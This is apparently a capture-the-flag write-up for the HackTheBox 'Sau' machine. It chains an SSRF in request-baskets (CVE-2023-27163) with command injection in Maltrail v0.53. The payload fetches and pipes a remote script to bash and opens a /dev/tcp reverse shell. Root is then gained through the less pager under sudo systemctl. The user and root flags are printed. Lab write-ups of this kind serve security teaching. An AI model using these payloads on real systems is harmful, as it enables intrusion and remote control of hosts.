




# Sau - HackTheBox - Writeup
Linux, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `55555`.

***User***: Discovered `request-baskets` running on port `55555`. Leveraging `CVE-2023-27163`, a new basket was created with forwarding to local port `80` for `Maltrail`. Exploiting unauthenticated OS Command Injection on `Maltrail`, a reverse shell was successfully obtained as user `puma`.

***Root***: After executing `sudo -l`, we discovered that we have the ability to run the `systemctl status` command as `root`. By utilizing the `!sh` command within the `less` pager, we successfully obtained a `root` shell.




## Sau Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nmap -sV -sC -oA nmap/Sau 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-19 23:18 IDT
Nmap scan report for 10.10.11.224
Host is up (0.085s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown

```

Observing port `55555`, we see that the following web page is hosted:



The `request-baskets` service is hosted on port `55555`, and its source code can be accessed at https://github.com/darklynx/request-baskets.

The `request-basket`s service is affected by a vulnerability `CVE-2023-27163`, which can be exploited using the details available at https://notes.sjtu.edu.cn/s/MUUhEymt7#.

To enumerate the internal ports of the target machine, we can achieve this by creating the following basket:
```http
POST /api/baskets/internal80 HTTP/1.1
Host: 10.10.11.224:55555
Accept: */*
X-Requested-With: XMLHttpRequest
Authorization: null
Authorization: CZjuTpYRvbcuwZN4NDsPg-Y8bTAFnFrO_dVPha_fl3bB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Referer: http://10.10.11.224:55555/web/baskets
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 142

{
  "forward_url": "http://127.0.0.1:80/",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

We get the following token as response:
```http
HTTP/1.1 201 Created
Content-Type: application/json; charset=UTF-8
Date: Wed, 19 Jul 2023 20:57:34 GMT
Content-Length: 56
Connection: close

{"token":"Ia3CN2VqTqhEuH09rlRQQYd1XrHfS7fS2yV2QlOnW3Am"}
```

Next, we need to access our basket at http://10.10.11.224:55555/web/internal80. To gain entry, we must insert the token:



To trigger the SSRF, we need to browse to http://10.10.11.224:55555/internal80, and upon doing so, we obtain the following output:


The internal port 80 hosts [Maltrail v0.53](https://github.com/stamparm/maltrail), a malicious traffic detection system.

As documented in https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/, we can exploit command injection using the following method:
```bash
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```

We can utilize the SSRF once again, but this time, we need to redirect to http://127.0.0.1:80/login using the following technique:
```http
POST /api/baskets/internal80login HTTP/1.1
Host: 10.10.11.224:55555
Accept: */*
X-Requested-With: XMLHttpRequest
Authorization: null
Authorization: CZjuTpYRvbcuwZN4NDsPg-Y8bTAFnFrO_dVPha_fl3bB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Referer: http://10.10.11.224:55555/web/baskets
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 142

{
  "forward_url": "http://127.0.0.1:80/login",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

And now, employing the following payload, we can obtain a reverse shell:
```bash
curl 'http://10.10.11.224:55555/internal80login' \
  --data 'username=;`curl http://10.10.14.14:8000/rev.sh | bash`'
```

The payload for `rev.sh` is as follows: `bash -i >& /dev/tcp/10.10.14.14/4242 0>&1`.

To acquire the reverse shell, we must initiate our web server and listen on port `4242`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Executing the provided payload results in a successful acquisition of a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.224: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.224] 47596
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
puma@sau:/opt/maltrail$ whoami
whoami
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
c822b040fa47b8bbb7390c18cffce679
```

And we get the user flag `c822b040fa47b8bbb7390c18cffce679`.

### Root

Upon executing sudo -l, we receive the following output:
```console
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service 
```

When running the command `sudo /usr/bin/systemctl status trail.service`, the `less` pager is invoked. By executing `!sh`, we can obtain a shell with `root` privileges:
```console
puma@sau:/opt/maltrail$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN) 
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2023-07-26 11:40:02 UTC; 8h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 892 (python3)
      Tasks: 24 (limit: 4662)
     Memory: 39.1M
     CGroup: /system.slice/trail.service
             ├─  892 /usr/bin/python3 server.py
             ├─  953 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  958 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  962 sh
             ├─  963 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─  964 /bin/sh
             ├─  972 python3
             ├─  995 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  996 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  999 sh
             ├─ 1000 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1001 /bin/sh
             ├─18062 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─18063 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
lines 1-23!sh
!sh
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
7518627988bdb7f20ab724f2ddc09541
```

And we get the root flag `7518627988bdb7f20ab724f2ddc09541`.
